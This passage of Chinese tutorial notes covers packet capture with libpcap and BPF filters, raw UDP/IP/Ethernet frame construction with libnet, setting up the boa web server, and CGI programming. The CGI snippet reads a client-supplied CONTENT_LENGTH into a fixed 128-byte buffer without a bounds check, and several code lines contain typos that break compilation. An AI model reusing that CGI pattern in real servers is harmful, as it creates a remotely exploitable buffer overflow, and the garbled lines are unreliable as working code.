            bytes[9],bytes[10],bytes[11]);
    printf("%s---->%s\n",src_mac,dst_mac);
    return;
}
int main(int argc,char const *argv[])
{
    //1、得到pcap的句柄
    char err_buf[128]="";
    pcap_t *pcap=pcap_open_live("ens38",1500,0,0,err_buf);
    if(NULL==pcap)
    {
        perror("pcap_open_live");
        printf("%s\n",err_buf);
        return 0;
    }
    //2、循环捕获网络数据(阻塞)
    pcap_loop(pcap,-1,deal_net_data,NULL);
    pcap_close(pcap);
    return 0;
}

```

### 编译BPF 过滤规则pcap_compile

```c
int pcap_compile(pcap_t *p,
                 struct bpf_program *program,
                 char *buf,int optimize,
                 bpf_u_int32 mask)
```

功能： 

- 编译BPF过滤规则 

参数: 

- p：Libpcap 句柄 
- program：bpf 过滤规则（pcap 识别的规则）
- buf：过滤规则字符串（用户识别的规则：比如：查看udp协议:"udp"） 
- optimize：优化（0 表示不优化） 
- mask：掩码（比如：255.255.255.0---->0xffffff00）

返回值： 

- 成功返回0，
- 失败返回-1 

### 用户识别的规则

```c
//1、mac地址过滤
ether src 11:22:33:44:55:66  //表示捕获源mac地址为11:22:33:44:55:66的数据包
    
ether dst 11:22:33:44:55:66  //表示捕获目的mac地址为11:22:33:44:55:66的数据包
    
ether host 11:22:33:44:55:66  //表示捕获源/目的mac地址为11:22:33:44:55:66的数据包

    
//2、IP地址过滤
src host192.168.0.2  //表示捕获源地址为192.168.0.2的数据报文
dst host192.168.0.2  //表示捕获目的地址为192.168.0.2的数据报文
host 192.168.0.2    //表示捕获源/目的地址为192.168.0.2的数据报文
ip src host 192.168.0.2 //表示捕获源地址为192.168.0.2的IP协议数据报。
ip dst host 192.168.0.2 //表示捕获目的地址为192.168.0.2的IP协议数据报。
    
    
//3、端口过滤
src port 8000 //表示捕获源端口为8000的数据报文
dst port 8000 //表示捕获目的端口为8000的数据报文
port 8000 //表示捕获源/目的端口为8000的数据报文
tcp src port 8000 //表示捕获源端口为8000的TCP数据报文
tcp dst port 8000 //表示捕获目的端口为8000的TCP数据报文
udp src port 8000 //表示捕获源端口为8000的udp数据报文
udp dst port 8000 //表示捕获目的端口为8000的udp数据报文

    
// 4、协议过滤
tcp udp tftp http icmp //表示协议过滤

    
//5、多条语句关系
and //表示同时成立
or //表示任意一个条件为真则成立
```

### 设置BPF过滤规则pcap_setfilter

注意：过滤规则要在捕获之前设置

```c
int pcap_setfilter(pcap *p,
                   struct bpf_program *fp)
```

功能：

-  设置BPF过滤规则 

参数: 

- p：Libpcap句柄 
- fp：BPF过滤规则

返回值： 

- 成功返回0，
- 失败返回-1 

步骤：

- 定义过滤规则
- 编译过滤规则
- 设置过滤规则

```c
#include<stdio.h>
#include<arpa/inet.h>
#include<pcap/pcap.h>
void deal_net_data(u_char *user,const struct pcap_pkthdr *h,const u_char* bytes)
{
    char src_mac[18]="";
    char dst_mac[18]="";
    printf("数据长度:%d%d\n",h->len,h->caplen);
    sprintf(dst_mac,
            "%02x:%02x:%02x:%02x:%02x:%02x", 
            bytes[0],bytes[1],bytes[2],
            bytes[3],bytes[4],bytes[5]);
    
  sprintf(src_mac,"%02x:%02x:%02x:%02x:%02x:%02x",
            bytes[0+6],bytes[1+6],bytes[2+6],
            bytes[3+6],bytes[4+6],bytes[5+6]);
    printf("%s---->%s\n",src_mac,dst_mac);
    return;
}
int main(int argc,char const *argv[])
{
    //1、得到pcap的句柄
    charerr_buf[128]="";
    pcap_t*pcap=pcap_open_live("ens38",1500,0,0,err_buf);
    if(NULL==pcap)
    {
        perror("pcap_open_live");
        printf("%s\n",err_buf);
        return 0;
    }
    //设置过滤规则（你设置的规则表接收）
    struct bpf_program program;
    //编译规则
    pcap_compile(pcap,&program,"udp port 2000",0,0xffffff00);
    //设置规则
    pcap_setfilter(pcap,&program);
    //2、循环捕获网络数据(阻塞)
    pcap_loop(pcap,-1,deal_net_data,NULL);
    pcap_close(pcap);
    return 0;
}

```

## 发送数据的库-libnet

libnet 用于发送数据的库。

 隐藏了很多底层细节，省去了很多麻烦；

- 如缓冲区管理、
- 字节流顺序、
- 校验和计算等问 题，

使开发者把重心放 到程序的开发中。

### libnet 的安装

```makefile
sudo apt-get update
sudo apt-get install libnet-dev
#gcc 编译的时候加-lnet
#引入头文件 #include<libnet.h>
```

### Libnet 开发流程

利用libnet函数库开发应用程序的基本步骤：

1. 数据包内存初始化 
2. 构造数据包 
3. 发送数据 
4. 释放资源



### 数据包内存初始化及环境建立-libnet_init

```c
libnet_t *libnet_init(int injection_type, char *device, char *err_buf)
```

功能： 

- 数据包内存初始化及环境建立 

参数： 

- injection_type: 构 造 的 类 型 (LIBNET_LINK,LIBNET_RAW4, LIBNET_LINK_ADV,LIBNET_RAW4_ADV) 
- device：网络接口，如"eth0",或IP地址，亦可为NULL(自动查询搜索) 
- err_buf:存放出错的信息 

返回值： 

- 成功返回一个libnet句柄；
- 失败返回NUL

```c
//1、创建libnet句柄
char err_buf[128]="";
libnet_t *net=libnet_init(LIBNET_LINK_ADV,"ens38",err_buf);
if(NULL==net)
{
    perror("libnet_init");
    return 0;
}
```

### 释放资源

```c
void libnet_destroy(libnet_t *l);
//功能：
//   释放资源
//参数：
//   l:libnet句柄
//返回值：
//无
```

### 构造udp数据包-libnet_build_udp

```c
libnet_ptag_t libnet_build_udp(
    u_int16_t sp,
    u_int16_t dp,
    u_int16_t len,
    u_int16_t sum,
    u_int8_t *payload,
    u_int32_t payload_s,
    libnet_t *l,
    libnet_ptag_t ptag
)
```

功能：

-  构造udp数据包 

参数： 

- **sp**:   源端口号 
- **dp**：目的端口号 
- **len**：udp包总长度 
- **sum**：校验和，设为0，libnet自动填充 
- **payload**：负载【携带的data】，可设置为NULL 
- **payload_s**：负载长度【携带的data长度】，或为0 
- **l**     :  libnet句柄 
- **ptag**：协议标记
  - 第一次构造的时候，这里一般写0，然后会返回一个数值来代表为这块udp报文空间，而这个值就是协议标记，
  - 如果返回了3，第二次构造的时候填3，就代表对这一部分报文进行修改


返回值： 

- 成功:返回协议标记；
- 失败:返回-1 

### 构造一个IPv4数据包-libnet_build_ipv4

```c
libnet_ptag_t libnet_build_ipv4(
    u_int16_t ip_len,
    u_int8_t tos,
    u_int16_t id,
    u_int16_t flag,
    u_int8_t ttl,
    u_int8_t prot,
    u_int16  sum,
    u_int32_t src,
    u_int32_t dst,
    u_int8_t *payload,
    u_int32_t payload_s,
    libnet_t *l,
    libnet_ptag_t ptag
)
```

功能： 

- 构造一个IPv4数据包 

参数： 

- ip_len：ip包总长
- tos：服务类型
- id：ip标识 
- flag：片偏移 
- ttl：生存时间 
- prot：上层协议 
- sum：校验和，设为0，libnet自动填充
- src  :源ip地址 dst：目的ip地址 
- payload：负载【携带的data】，可设置为NULL【如果设置为NULL,会自动找上层的data】
- payload_s：负载长度【携带的data长度】，或为0 【如果设置为0,会自动找上层的data长度】
- l   :libnet句柄 
- ptag：协议标记 
  - 第一次构造的时候，这里一般写0，然后会返回一个数值来代表为这块ip报文空间，而这个值就是协议标记，
  - 如果返回了3，第二次构造的时候填3，就代表对这一部分报文进行修改


返回值： 

- 成功:返回协议标记；
- 失败:返回-1

### 构造一个以太网[链路层]数据包-libnet_build_ethernet

```c
libnet_ptag_t libnet_build_ethernet(
    u_int8_t *dst,
    u_int8_t *src,
    u_int16_t type,
    u_int8_t *payload,
    u_int32_t payload_s,
    libnet_t *l,
    libnet_ptag_t ptag
)
```

功能： 

- 构造一个以太网数据包 

参数：

-  dst：目的mac 
- src：源mac 
- type：上层协议类型 
- payload：负载，即附带的数据 
- payload_s：负载长度 
- l：libnet句柄 
- ptag：协议标记 

返回值： 

- 成功：返回协议标记；
- 失败：返回-1

### 发送数据到网络-libnet_write

```c
int libnet_write(libnet_t *l)
```

功能： 

- 发送数据到网络

 参数：

-  l：libnet句柄 

返回值： 

- 失败:返回-1，
- 成功:返回其他

### 发送udp消息[案例]

```c
#include<stdio.h>
#include<libnet.h>
#include<string.h>
int main(int argc,char const *argv[])
{
    //1、创建libnet句柄
    char err_buf[128]="";
    libnet_t *net=libnet_init(LIBNET_LINK_ADV,"ens38",err_buf);
    if(NULL==net)
    {
        perror("libnet_init");
        return 0;
    }
    char buf[128]="";
    printf("请输入需要发送的数据:");
    fgets(buf,sizeof(buf),stdin);
    buf[strlen(buf)-1]=0;
    int len=strlen(buf);
    //构建UDP报文
    libnet_pt ag_t udp_tag=libnet_build_udp(8000,2000,8+len,0,buf,len,net,0);
    //构建IP报文
    libnet_ptag_t ip_tag=libnet_build_ipv4
        (
        20+8+len,0,0,0,128,17,0,
        inet_addr("10.9.72.129"),
        inet_addr("10.9.72.150"),
        NULL,0,net,0
    );
    //构建链路层报文
    unsigned char src_mac[6]={0x00,0x0c,0x29,0xf5,0x18,0x2c};
    unsigned char dst_mac[6]={0x3C,0x7C,0x3F,0x5F,0x60,0x7C};
    libnet_ptag_t mac_tag=libnet_build_ethernet(dst_mac,src_mac,0x0800,NULL,0,net,0);
    //发送数据
    libnet_write(net);
    //释放资源
    libnet_destroy(net);
    return 0;
}
```

### 循环的发送数据[案例]

```c
//如果直接将报文的创建写在死循环中，由于协议标记 一直是0，会导致每次报文的创建都要重新申请堆区空间
//因此可以利用协议标记来，修改对应的报文即可
#include<stdio.h>
#include<libnet.h>
#include<string.h>
int main(int argc,char const *argv[])
{
    //1、创建libnet句柄
    char err_buf[128]="";
    libnet_t *net=libnet_init(LIBNET_LINK_ADV,"ens38",err_buf);
    if(NULL==net)
    {
        perror("libnet_init");
        return 0;
    }
    char buf[128]="";
    printf("请输入需要发送的数据:");
    fgets(buf,sizeof(buf),stdin);
    buf[strlen(buf)-1]=0;
    int len=strlen(buf);
    //构建UDP报文
    libnet_pt ag_t udp_tag=libnet_build_udp(8000,2000,8+len,0,buf,len,net,0);
    //构建IP报文
    libnet_ptag_t ip_tag=libnet_build_ipv4
        (
        20+8+len,0,0,0,128,17,0,
        inet_addr("10.9.72.129"),
        inet_addr("10.9.72.150"),
        NULL,0,net,0
    );
    //构建链路层报文
    unsigned char src_mac[6]={0x00,0x0c,0x29,0xf5,0x18,0x2c};
    unsigned char dst_mac[6]={0x3C,0x7C,0x3F,0x5F,0x60,0x7C};
    libnet_ptag_t mac_tag=libnet_build_ethernet(dst_mac,src_mac,0x0800,NULL,0,net,0);
    //发送数据，
    //第一次报文协议标识为0，正常发送即可
    libnet_write(net);


    while(1)
    {
        printf("请输入需要发送的数据:");
        fgets(buf,sizeof(buf),stdin);
        buf[strlen(buf)-1]=0;
        int len=strlen(buf);
        //构建UDP报文，将上一次返回的结果，作为协议标记参数传入，就可以修改到之前的对应的报文空间内容了
        udp_tag=libnet_build_udp(
            8000,
            2000,
            8+len,
            0,
            buf,len,net,udp_tag);
        //构建IP报文，将上一次返回的结果，作为协议标记参数传入，就可以修改到之前的对应的报文空间内容了
        ip_tag=libnet_build_ipv4
            (
            20+8+len,0,0,0,128,17,0,
            inet_addr("10.9.72.129"),
            inet_addr("10.9.72.150")
            ,NULL,0,net, ip_tag);
        //发送数据
        libnet_write(net);
    }


    //释放资源
    libnet_destroy(net);
    return 0;
}
```

## B/S开发

浏览器和服务器开发：通过浏览器控制服务器操作外设。 

前端：html、javascript、AJAX、

后端：cgi 

- HTML 超文本标记语言（显示数据）。
- HTTP超文本传送协议。URL统一地址定位符。 XML 存储数据。
-  JavaScript:脚本语言 和网页交互。
- AJAX 是网页和服务器的通信技术。 
- CGI：通过网关接口（操作服务器外设或数据库）。

### web开发模型



### B/S 架构与C/S架构对比



| 角度     | C/S                                             | B/S                                                          |
| -------- | ----------------------------------------------- | ------------------------------------------------------------ |
| 硬件环境 | 专用网络                                        | 广域网                                                       |
| 安全要求 | 面向相对固定的用户群<br/>信息安全的控制能力很强 | 面向是不可知的用户群<br/>对安全的控制能力相对弱              |
| 程序架构 | 更加注重流程<br/>系统运行速度可较少考虑         | 对安全以及访问速度要多重的考虑<br/>B/S结构的程序架构是发展的趋势 |
| 软件重用 | 差                                              | 好                                                           |
| 系统维护 | 升级难                                          | 开销小、方便升级                                             |
| 处理问题 | 集中                                            | 分散                                                         |
| 用户接口 | 与操作系统关系密切                              | 跨平台，与浏览器相关                                         |
| 信息流   | 交互性低                                        | 交互密集                                                     |

### web的原理



### ubuntu下boa服务器的安装

1. 找到boa服务器源码拷贝到ubuntu的tools目录中

2. ```makefile
   #进入 tools目录，解压文件
   cd ~/tools/
   tar xvf boa-0.94.13-src.tar.gz
   ```

3. 进入解压后的文件夹 `cd boa-0.94.13-src`



4. 进入src源码文件中 `cd src`



### boa的目录结构概述

**注意**：boa的目录比一定必须是下方所展示的一样的，可以自行构建目录机构，构建合理即可。



```makefile
#按照上图，在boa的src目录下，分别创建对应的文件夹
mkdir /home/edu/boa/boa -p
mkdir /home/edu/boa/log
mkdir /home/edu/boa/www/cgi-bin -p

touch /home/edu/boa/log/error_log
touch /home/edu/boa/log/access_log
touch /home/edu/boa/www/index.html
```

### 指明去哪儿找boa.conf

```makefile
#修改boa的src下的defines.h
vim defines.h
```



### 编译源码得到服务器端的可执行文件

```makefile
#使用boa的configure生成makefile
./configure
# make 生成
make

#注意：
#  这里的make默认是使用gcc编译，因为这时在ubuntu环境
 #  如果想要在开发板上面运行，需要进入makefile配置文件中，将对应的gcc 全部 换成开发板编译 指令   
```

- 在执行make时，可能会出现`make: bison：命令未找到`报错	

  - ```makefile
    #解决办法：
    sudo apt-get install bison
    ```

- 继续执行make时，可能会出现`make: flex：命令未找到`

  - ```makefile
    #解决办法：
    sudo apt-get install flex
    ```



### 将boa、boa.conf、mime.types拷贝到指定的目录

```makefile
cp boa /home/edu/boa/boa
cd ..
cp boa.conf /home/edu/boa/boa
cp /etc/mime.types /home/edu/boa/boa
```

### 修改boa.conf的配置文件

注意：修改的是`/home/edu/boa/boa`下的`boa.conf`

```makefile
cd /home/edu/boa/boa/
vim boa.conf
```





### 运行服务器

```makefile
cd /home/edu/boa/boa/
sudo ./boa
```

### 访问ubuntu的boa服务器

通过windows的浏览器访问ubuntu的boa服务器

```makefile
http://ubuntu的IP:80/
#这里的80是在配置文件中设置的默认端口
#或者
http://ubuntu的IP/
```


## CGI

CGI不是语言，而是某个程序的可执行文件，只要能操作输入输出设备即可。

CGI 是通用网关接口(CommonGatewayInterface);

是 HTTP服务器与其它程序进行“交谈”的工 具 

通过CGI接口就能在服务器端运行其他的程序。

### CGI 处理步骤

1. 通过浏览器将用户请求送到服务器 
2. 服务器接收用户请求并交给CGI程序处理（获取服务器的数据）
3. CGI程序把处理结果传送给服务器 
4. 服务器把结果送回到浏览器。

### CGI 编程


1.  CGI 可以用任何一种语言编写，只要这种语言具有标准输入、标准输出、和获取环境变 量 

   - CGI程序通过标准输入(stdin)、标准输出(stdout)实现与web服务器间信息的传递 

   - 环境变量为Web服务器和CGI接口之间约定的,用来向CGI程序传递一些重要的 参数

2.  CGI 传送给Web服务器的信息可以用各种格式,通常是以HTML文本或者XML文本的形 式

   - 传输HTML文本第一行输出的内容必须是”Content-Type:text/html” 

   - 传输XML文本第一行输出的内容必须是”Content-Type:text/xml” 

   - 还有其他的一些格式：JIF(image/gif)、JPEG(image/jpeg)、AVI(video/avi)

3. 两个重要的CGI环境变量 

   - **==QUERY_STRING==**：在浏览器端以GET的方法输入的数据，数据的内容就是url问号后的内容 ，
     - 浏览器get请求时，需要使用到这个宏来提取服务器的数据

   - **==CONTENT_LENGTH==**：在浏览器端以POST方法输入的数据的字节数，数据的内容通过标准输入获取。
     - 浏览器post请求时，需要使用到这个宏来提取服务器的数据

例子：

```c
//这句话一定要输出
printf("content-type:text/html\n\n");
// 1、如果是 POST 方式 得到服务器的数据"10+10"的长度
char *data_len = getenv("CONTENT_LENGTH");
// 通过数据长度 从 stdin 得到 服务器的数据
char data[128] = "";
fgets(data, atoi(data_len) + 1, stdin);
// 分析 data 数据
int data1 = 0, data2 = 0;
char ch;
sscanf(data, "%d%c%d", &data1, &ch, &data2);
```

### A53 和云服务器
